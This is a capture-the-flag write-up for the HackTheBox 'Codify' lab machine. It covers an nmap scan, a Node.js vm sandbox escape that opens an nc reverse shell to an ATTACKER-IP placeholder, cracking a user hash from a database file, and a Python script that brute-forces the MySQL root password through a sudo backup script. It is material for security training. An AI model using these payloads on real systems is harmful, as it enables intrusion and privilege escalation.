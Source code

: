 # **Codify**

***
![](https://miro.medium.com/v2/resize:fit:1400/1*-QJ-5jvRu70eWMRuKoluHw.png)

## **Difficulty = Easy**

***
Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Mon Nov  6 01:25:11 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.129.158.172
Increasing send delay for 10.129.158.172 from 0 to 5 due to 217 out of 542 dropped probes since last increase.
Increasing send delay for 10.129.158.172 from 5 to 10 due to 203 out of 507 dropped probes since last increase.
Warning: 10.129.158.172 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.158.172
Host is up (0.27s latency).
Not shown: 58108 closed tcp ports (conn-refused), 7424 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: POST
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:28:23 2023 -- 1 IP address (1 host up) scanned in 192.23 seconds
```


Navigating to port `80/HTTP` we have this


![](https://i.imgur.com/VTspSKB.png)

We can therefore add **codify.htb** to our `/etc/hosts` file

![](https://i.imgur.com/rAXsWeY.png)


Navigating back to **codify.htb** we have this website


![](https://i.imgur.com/hb521yc.png)


Clicking **Try it now** we have this **Node.js** sandbox as said earlier in the default page, so i tried out several payloads, but good enough this [blog](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) helped me


![](https://i.imgur.com/KkuwgJv.png)


We can therefore get a reverse shell using the below payload (Make sure to replace **ATTACKER-IP** with your Ip address)


```bash
# on attacker machine
$ nc -lvnp 444

# on node.js editor

"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP 4444 >/tmp/f').toString()`);
console.log(xyz);
```


We got shell as user `svc`


![](https://i.imgur.com/5np8SqW.png)


Navigating to `/var/www/contact` we have a file called `tickets.db` that contains user **joshua** hash (For better view use `strings` instead of `cat`)


![](https://i.imgur.com/oCS7otG.png)


We can then save this hash into a `.TXT` file on our attacker machine and attempt to crack it


![](https://i.imgur.com/j00477M.png)

We can therefore switch user to **joshua** with the `su` command


![](https://i.imgur.com/yHCFGqW.png)


Running `sudo -l` we have permissions to run `/opt/scripts/mysql-backup.sh` with sudo permissions


![](https://i.imgur.com/hMeg5hn.png)


Concatenating this script we can see what it does


![](https://i.imgur.com/UV9OY5m.png)

Basically it asks us for a user `root` **Mysql** password and if it is correct grants us read permissions to the `/var/backups/mysql` backup directory, After several testing i found out a particular python script by someone 🤣 that literally bruteforce the **Mysql** password


```python
import string  
import subprocess  
  
all_characters_and_numbers = list(string.ascii_letters + string.digits)  
  
password = ""  
found = False  
  
while not found:  
    for character in all_characters_and_numbers:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Which truly did gave us the password

![](https://i.imgur.com/RFkK7MC.png)


We can just switch user to `root` with this password instead of login in via **Mysql**

![](https://i.imgur.com/rh4PWdi.png)





<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>





